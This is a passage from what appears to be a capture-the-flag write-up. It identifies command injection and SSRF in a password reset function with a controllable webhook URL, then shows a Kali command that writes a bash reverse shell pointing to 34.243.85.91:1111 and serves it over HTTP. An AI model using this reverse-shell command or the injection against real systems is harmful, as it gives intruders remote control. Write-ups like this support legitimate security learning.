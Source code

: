 ![](/assets/obsidian/4815d4733a21e2e86af23305c08668d5.png){:target='_blank'}

- The password reset function seems vulnerable to command injection and SSRF, and I can control `webhook` URL

> `./app./classes./reset.class.php`

![](/assets/obsidian/9b7a8209bef543e303b99447c29f08b9.png){:target='_blank'}

Host reverse shell on my VPS

```bash
┌──(root㉿kali)-[~]
└─# mkdir www && cd www && echo -e '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/34.243.85.91/1111 0>&1"' > index.html && python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
